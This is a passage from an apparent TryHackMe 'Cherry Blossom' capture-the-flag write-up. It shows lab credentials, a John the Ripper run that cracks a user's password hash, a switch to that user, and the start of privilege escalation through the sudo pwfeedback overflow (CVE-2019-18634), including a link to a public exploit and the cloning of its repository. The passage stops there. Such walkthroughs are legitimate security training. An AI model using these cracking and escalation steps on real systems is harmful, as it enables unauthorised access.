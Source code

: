 ```username:lily```             ```password:Mr.$un$hin3```
command:```john abeg  --wordlist=cherry-blossom.txt```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom]
└─$ john abeg  --wordlist=passwords.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
##scuffleboo##   (johan)     
1g 0:00:00:03 DONE (2023-05-13 19:02) 0.2732g/s 1958p/s 1958c/s 1958C/s #sharry#1992..#iloveyou#
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now, lets switch to user ```johan``` using the password John found for us

command:```su johan```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/003a9d9e-f6e7-4476-9548-e8df4fb69a90)

cool hehe😎. Lets further escalate our privileges

Running the command ```sudo -l```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c64c759f-e0a4-444b-94b3-bffeb03d4b21)

From the above screenshot, you can see that we are getting the password echoed back to us, now this isn't meant to be actually. This is a function called pwfeedback thats enabled in the ```/etc/sudoers``` config, so basically a stack-based buffer overflow in the privileged sudo process. You can read more about it [here](https://nvd.nist.gov/vuln/detail/CVE-2019-18634)

After a little research I found an [exploit](https://github.com/saleemrashid/sudo-cve-2019-18634)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0b19422d-c023-41ba-8fc0-148b9bb93d2f)

clone this to your machine and compile

```                                    
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom]
└─$ git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git     
Cloning into 'sudo-cve-2019-18634'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (21/21), done.
remote: Total 30 (delta 14), reused 22 (delta 8), pack-reused 0
Receiving objects: 100% (30/30), 5.95 KiB | 5.95 MiB/s, done.
Resolving deltas: 100% (14/14), done.
                                                                                                                                                                       